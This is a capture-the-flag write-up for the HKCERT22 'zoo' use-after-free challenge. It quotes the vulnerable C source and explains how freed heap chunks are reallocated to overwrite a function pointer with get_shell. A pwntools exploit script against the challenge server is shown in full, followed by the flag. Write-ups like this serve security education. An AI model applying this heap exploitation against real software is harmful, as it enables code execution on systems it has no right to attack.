


s# UAF
## Challenge details


## Analysis
This program has a `get_shell()` function. The target of this challenge is to execute this function.
```c
void get_shell() {
    system("/bin/sh");
}
```

The `add_animal()` function will create 2 heap chunks and put in the list. 
```c
void add_animal() {
    int choice;
    int size;
    int idx;
    Animal* animal;

    if (zoo.numOfAnimal >= ZOO_SIZE) {
        print("[ERROR] The zoo is full.");
        return;
    }

    for (idx = 0; idx < ZOO_SIZE; idx++) {
        if (zoo.animals[idx] == NULL) {
            break;
        }
    }

    animal = (Animal*) malloc(sizeof(Animal));

    print("Type of animal?");
    print("1) Parrot");
    print("2) Panda");

    while (1) {
        printf("> ");
        scanf("%d", &choice);
        if (choice == 1) {
            animal->type = PARROT;
            break;
        } 
        if (choice == 2) {
            animal->type = PANDA;
            break;
        }
        printf("??\n");
    }

    animal->speak = speak;
    print("How long is the name? (max: 64 characters)");   
    while (1) {
        printf("> ");
        scanf("%d", &size);
        if (size >= 0 && size < MAX_NAME_SIZE) {
            animal->name = (char*) malloc(size);
            break;
        } 
        printf("??\n");
    }

    print("Name of animal?");
    printf("> ");
    read(0, animal->name, size);

    zoo.animals[idx] = animal;
    printf("> [DEBUG] Animal is added to zone %d\n", idx);
    zoo.numOfAnimal++;
}
```
The data structure is:
```c
struct Animal
{
    speakFunc speak;
    enum AnimalType type;
    char* name;
};
```
You can see that there is a function pointer `speak` which will be called after `report_name()` function (`speak(name)`). Our target is overwrite `speak` with the address of `get_shell`.
```c
void report_name() {
    <SNIP>
    zoo.animals[choice]->speak(zoo.animals[choice]->name);
}
```
Every time a new `Animal` is created, the pointer will will be inserted to `zoo[idx]` where `idx` is the first NULL pointer. Hence, use-after-free (UAF) can be applied. If we can overwrite the address of `speak` and call `report_name()`, `get_shell()` will be called.
```c
void remove_animal() {
    int choice;

    <SNIP>

    free(zoo.animals[choice]->name);
    free(zoo.animals[choice]);

    printf("> [DEBUG] Animal is removed from zone %d\n", choice);
    
    zoo.numOfAnimal--;
}
```
We want to make the `malloc()` allocate location to `name` that previous allocated to animal. Look at how GDB is executed.

Since the `add_animal()` request 2 heap chunks at once, the 2 chunks are allocated and freed in pairs.


As we can specify the size of the name, we can allocated name with size 0x40 (2 chunks `A`: 0x20,  `B`: 0x40), then create an animal with name chunk size 0x20 (2 chunks `C`: 0x20, `D`: 0x20). Thus, if these 2 chunks are freed and add a new animal with size 0x20, the chunks `A` and `C` will be allocated. If we the name to this animal, the address of `speak()` of the 2nd animal will be overwritten.


## Solution
```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'

e = ELF('./zoo')
# r = gdb.debug('./zoo', 'b* remove_animal\nc')
r = remote('chal.hkcert22.pwnable.hk', 28235)
def create(size, data):
    r.sendlineafter(b'Exit\n> ', b'1')
    r.sendlineafter(b'2) Panda', b'1')
    r.sendlineafter(b'name? ', str(size).encode())
    r.sendafter(b'animal?', data)

def delete(id):
    r.sendlineafter(b'Exit\n> ', b'2')
    r.sendlineafter(b'(0-9)', str(id).encode())

def report(id):
    r.sendlineafter(b'Exit\n> ', b'3')
    r.sendlineafter(b'(0-9)', str(id).encode())
# 0
create(0x30, b'AAAAAAAAA')
# 1
create(0x18, b'AAAAAAAAA')
# 2
create(0x18, b'AAAAAAAAA')
# 3
create(0x18, b'AAAAAAAAA')
# 4
create(0x18, b'AAAAAAAAA')
# 5
create(0x18, b'AAAAAAAAA')
# 6
create(0x18, b'AAAAAAAAA')
# 7
create(0x18, b'AAAAAAAAA')


delete(1)
delete(0)

# 8
create(0x18, p64(e.symbols['get_shell']))
report(1)
r.interactive()
```

## Flag
`
hkcert22{w3L1C0me_70_World_0f_pwN_h34P_z0o}
`